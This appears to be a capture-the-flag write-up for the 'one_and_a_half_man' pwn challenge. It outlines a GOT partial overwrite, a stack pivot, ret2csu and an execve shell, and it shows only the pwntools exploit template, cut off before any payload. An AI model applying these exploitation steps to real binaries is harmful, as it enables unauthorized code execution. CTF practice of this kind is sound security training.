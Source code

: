 ```

```
No pie and partial Relro is just hilarious. :face_with_rolling_eyes: 

###### exploit
```
There is a syscall resides inside read.
So change read got last byte to make it point at syscall. And then Just control registers, 
and some advanced ROP stuff, there isn't enough space for whole ROP chain so
first pivot the stack to bss.
Read another ROP chain there and continue from there.
Ret2csu to control the RDX register.
To set RAX = 0x3b
I make a read syscall and sebd exact 0x3b number of bytes. and do 'execve' -> binsh
```
#### Here is the whole exploit.

```python=

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenges.ctfd.io --port 30096 ./bof
from pwn import *
#import roputils as we
# Set up pwntools for the correct architecture
elf = context.binary = ELF('./one_and_a_half_man')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'one-and-a-half-man.3k.ctf.to'
port = int(args.PORT or 8521)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x4005DC
continue
'''.format(**locals())
```